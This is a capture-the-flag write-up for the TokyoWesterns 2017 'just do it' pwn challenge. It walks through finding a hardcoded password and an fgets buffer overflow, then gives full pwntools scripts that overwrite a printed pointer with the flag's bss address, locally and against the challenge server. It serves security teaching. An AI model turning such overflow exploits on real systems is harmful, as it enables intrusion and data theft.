 # Just Do It!

This was done on `Ubuntu 20.04.4`, although the exact ubuntu version probably doesn't matter too much for this one. This was originally a pwn challenge from the TokyoWesterns 2017 ctf.

Let's take a look at the binary:

![intro_data](pics/intro_data.png)

So we can see that it is a 32 bit binary, with a non executable stack.. When we run it, we can see it is complaining about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in Ghidra:

![main](pics/main.png)

So we can see that the file it is trying to open is `flag.txt`. When we create the file `flag.txt`, we see that we can actually run the binary:

![flag_setup](pics/flag_setup.png)

We can also see that this binary will essentially prompt you for a password, and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check. We see this via double clicking on `PASSWORD`:

![password_val](pics/password_val.png)

So we can see that the string it is checking for is `P@SSW0RD`. Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`.

![password_val](pics/password_val.png)

So we can see the value of the password is `P@SSW0RD`. So we should be able to pass the check with this script:

![solve_check](pics/solve_check.png)

Which we can run like this:

![run_solve](pics/run_solve.png)


So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `input`. Let's see how many bytes `input` can hold:

![stack_frame](pics/stack_frame.png)

So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `input`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `printedPtr` which is printed with a puts call, right before the function returns. So we can print whatever we want. That makes this code look really helpful:

![fread](pics/fread.png)

So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `target` with that address and then it should print out the contents of `flag`, which should be the flag.

![flag_bss](pics/flag_bss.png)

So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `vulnBuf` and `target` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`. Here is the exploit to do just that:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = process('just_do_it')
#target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

So we were able to read the contents of `flag.txt` with our exploit. Let's write an exploit to use the same exploit against the server they have with the challenge running to get the flag. Here is the python code:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

![flag_bss](pics/flag_bss.png)

Just like that, we captured the flag!
